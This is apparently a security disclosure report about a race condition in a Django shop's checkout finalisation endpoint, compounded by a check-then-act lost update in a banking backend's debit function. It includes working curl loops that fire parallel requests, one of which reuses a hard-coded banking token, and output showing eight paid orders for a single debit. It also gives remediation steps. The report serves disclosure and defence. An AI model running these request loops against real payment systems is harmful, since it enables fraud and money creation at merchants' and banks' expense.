


# Description

Race condition / double-spend (CWE-362) on the checkout finalisation endpoint `POST /shop/payment/complete/`. After the payment form is authorised at `/shop/payment/`, the loading page auto-POSTs to `/shop/payment/complete/` to finalise the order. The operation is non-atomic: when several finalisation requests arrive in parallel on the same session, the server creates several distinct paid orders before the cart/payment state is invalidated, while the wallet is debited only once.

A buyer obtains multiple paid orders from a single checkout session. Two flaws stack:

1. **Django (`Shopping/views.py::complete_order`)** — `payment_info` and the cart are read from the session/DB without any lock, and are only cleared at the very end of the view (after `time.sleep(0.5)` calls around each bank request). Every parallel request therefore passes the checks and creates its own `COMPLETED` order.
2. **Banking backend (`VRC_Banking_System_Backend/Utils/DbManager.py::sub_balance`)** — the debit is a check-then-act: it reads the balance, checks `balance < amount`, sleeps `2` s, then writes the absolute value `balance - amount` on a separate connection without re-checking. Concurrent debits all read the same balance and overwrite each other (lost update), so the buyer is debited only once while every `tr` returns `success` and the receiver is credited for each one.

The result is a loss of transactional integrity between orders, the buyer's debit and the amounts credited to the receiving account (money is created).

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Add an affordable paid product; balance `1.00 NE`, price `0.99 NE`. | Cart ready. |
| 2 | Authorise the payment once (`302 → /shop/payment/loading/`). | Checkout ready to finalise. |
| 3 | Fire N parallel `POST /shop/payment/complete/`. | N distinct `COMPLETED` orders created; the bank debits the buyer only once (lost update in `sub_balance`). |

# PoC

```bash
for i in $(seq 1 8); do
  curl -sk -i -b session.txt -X POST "http://<TARGET>/shop/payment/complete/" \
    -H "Content-Type: application/json" -H "X-CSRFToken: <csrftoken>" --data-binary '{}' &
done; wait
```

Every request returned `302` to a **different** order id:

```
Location: /shop/orders/6bb93547-…/
Location: /shop/orders/7ce3cf9f-…/
… (8 distinct order IDs)
```



Order history shows 8× `collision 2 ball`:


The wallet balance shows the bank debited only one of the eight orders (observed `1.00 → 0.01 NE`): all eight debits read the same balance during the 2 s TOCTOU window and wrote the same `1.00 - 0.99` value:



**Bank-side root cause confirmed in isolation.** The same `tr` command used by `complete_order` was fired 8× in parallel between two test accounts (A balance set to `1.00`, B to `0.00`) through the internal banking client path:

```bash
BASE='http://<TARGET>/banking/a0faaa38-c51f-428a-bd85-54deb308ac86'
TOKEN='[REDACTED]'   # hard-coded banking client token (see SQLi Banking write-up)
for i in $(seq 1 8); do
  SID=$(curl -s "$BASE/none&none&$TOKEN" | python3 -c "import json,sys;print(json.load(sys.stdin)['sid'])")
  curl -s "$BASE/command+tr+from+<A_ID>+to+<B_ID>+amount+0.99&$SID&$TOKEN" &
done; wait
# 8x {"status": "success"}
# balances after: A = 0.01 (debited once), B = 6.93 (credited 7x — the credit side also loses an update)
```

8 successful transfers of `0.99` cost the sender `0.99` in total, while the receiver gained `6.93`: `5.94 NE` were created out of nothing. In the shop flow the receiver is the platform admin bank account, and each extra `COMPLETED` order also credits the seller's `DeveloperBalance` commission again (from source).

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Multiple COMPLETED orders created from one checkout session; buyer debited once while the receiving account is credited per transfer (money creation); order history / accounting desynchronised with actual bank debits. |
| Availability | None directly. |

Overall severity: **High** — significant impact on transactional integrity, with potential financial losses and accounting inconsistencies.

# Remediation

1. **Enforce checkout idempotency** — ensure that each payment attempt produces at most one order and that repeated finalisation requests do not generate additional orders or payments.
2. **Apply database-level concurrency controls** — use `transaction.atomic()` and appropriate row-level locking, such as `select_for_update()` on supported database backends, to protect checkout state transitions.
3. **Enforce database-level integrity constraints** — add a unique constraint linking each payment attempt to at most one order.
4. **Ensure banking-side transaction integrity** — perform balance validation and debit operations atomically within the banking backend, independently of the Django application transaction.
5. **Ensure payment and order consistency** — only mark an order as `COMPLETED` after successful payment confirmation, and implement appropriate failure handling and reconciliation between the application and the banking backend.
6. **Add regression tests** — verify checkout idempotency, transactional integrity, database constraints and payment consistency under concurrent operations.

# Author
Hackrapovic
